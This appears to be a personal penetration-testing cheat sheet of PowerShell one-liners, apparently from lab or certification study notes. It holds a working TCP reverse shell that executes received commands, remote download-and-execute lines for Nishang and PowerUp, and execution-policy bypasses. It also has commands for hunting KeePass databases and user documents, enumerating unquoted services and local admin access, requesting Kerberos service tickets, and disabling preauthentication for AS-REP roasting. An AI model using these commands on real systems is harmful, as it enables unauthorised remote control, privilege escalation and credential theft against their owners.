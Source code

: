 ```
powershell -ExecutionPolicy Bypass -File script.ps1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex(New-Object Net.WebClient).DownloadString('http://ip/Invoke-PowerShellTcp.ps1');
```

```
powershell -c "(New-Object Net.WebClient).DownloadFile('http://ip/filename.ext','C:\filelocation\filename.ext')"
```

```
Start-Service GammaService
```

```
Stop-Service GammaService
```

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3

**Invoke-WebRequest**

```
iwr http://kali/PowerUp.ps1 -Outfile PowerUp.ps1
```

```
powershell -ep bypass
```

```
Import-Module .\PowerUp.ps1
```

```
Get-DomainGPO
```

```
Get-UnquotedService
```

```
 Get-Acl -Path C:\ | Format-List
```

```
icacls .\Documents\BetaServ.exe
```

```
Get-LocalUser
```

```
Get-LocalGroup
```

```
Get-LocalGroupMember adminteam
```

```
Get-LocalGroupMember Administrators
```

```
systeminfo
```

```
ipconfig /all
```

```
route print
```

```
netstat -ano
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

```
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```

```
Get-NetComputer | select operatingsystem,dnshostname,serviceprincipalname
```

```
Find-LocalAdminAccess
```

```
Rename-Item
```

```
Add-Type -AssemblyName System.IdentityModel
```

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/service.domain.com:port'
```

```
Enter-PSSession -ComputerName blahblahblah
```

```
Set-ADAccountControl -Identity manager -DoesNotRequirePreAuth $true
```

```
Set-ADAccountControl -Identity manager -DoesNotRequirePreAuth $false
```
